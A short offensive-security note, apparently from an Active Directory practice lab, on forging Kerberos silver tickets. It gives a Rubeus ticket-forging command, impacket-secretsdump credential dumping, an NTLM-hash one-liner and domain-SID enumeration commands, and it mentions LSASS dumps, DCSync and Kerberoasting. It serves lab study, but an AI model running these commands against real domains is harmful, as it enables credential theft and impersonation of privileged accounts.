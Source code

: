 we can forge a service ticket if we have:
- plain-text password or NTLM hash of a service account (secretdump -mimkatz LSASS dump - DCSync)
- Service Principal Name (SPN) of that service
- FQDN
- Domain SID (optional for some tools)

Tools:
1. rubeus
```powershell
rubeus.exe silver /service:MSSQLSvc/castelblack.north.sevenkingdoms.local:1433 /rc4:<NTLM> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```


> [!NOTE] NOTE
> this whole tickets forging thing will be useless IF the service did a PAC validation which is rare. Any service that runs inside services.msc will not use PAC validation. 

---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```